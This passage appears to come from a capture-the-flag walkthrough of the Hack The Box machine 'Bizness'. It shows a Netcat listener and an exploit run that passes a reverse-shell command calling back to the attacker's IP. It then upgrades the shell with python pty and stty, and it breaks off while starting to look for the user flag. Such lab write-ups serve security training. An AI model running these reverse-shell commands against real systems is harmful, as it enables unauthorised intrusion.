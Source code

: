 I have been experimenting with a python based tool named Penelope however in order to minimise automation in this walk through we will use Netcat as our listener. personally i like Penelope only for its automatic shell upgrade which we will cover after accessing the shell. 

to set up a listener with Netcat, run the following command:

```bash
$ nc -nvlp [port number]
```

### Running the exploit.
to run the exploit, you need the following command:

```bash
$ python exploit.py --url https://bizness.htb --cmd 'nc [your_ip] [port number] -c bash'
```

here you are running python with targets URL and the command you like to run on target system. 
for us this will be a Netcat command to establish a reverse shell with our listener.

once the exploit is executesd, we can check out listener to see if it's received the conneciton.

```bash
$ whoami
ofbiz
```
## Improving Shell Efficiency
As you can see, the shell is so clunky its barely usable, the arrow keys dont work and you cant clear the terminal. chances us changing your terminals window size could break the character alignment and make the text unreadable. to overcome this, we can upgrade our shell on this system using python:

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

Next, we'll send the shell to the background using Ctrl+Z and run:

```bash
stty raw -echo; fg
```

Now, define our Terminal emulator with:

```bash
export TERM=xterm
```

With these adjustments, our shell becomes more responsive, allowing for easier navigation and command recall.

## User flag

Let's search for the user flag. Typically, it's located in the home directory, making it easy to find. Let's check:

we can do this by listing the home directory with 
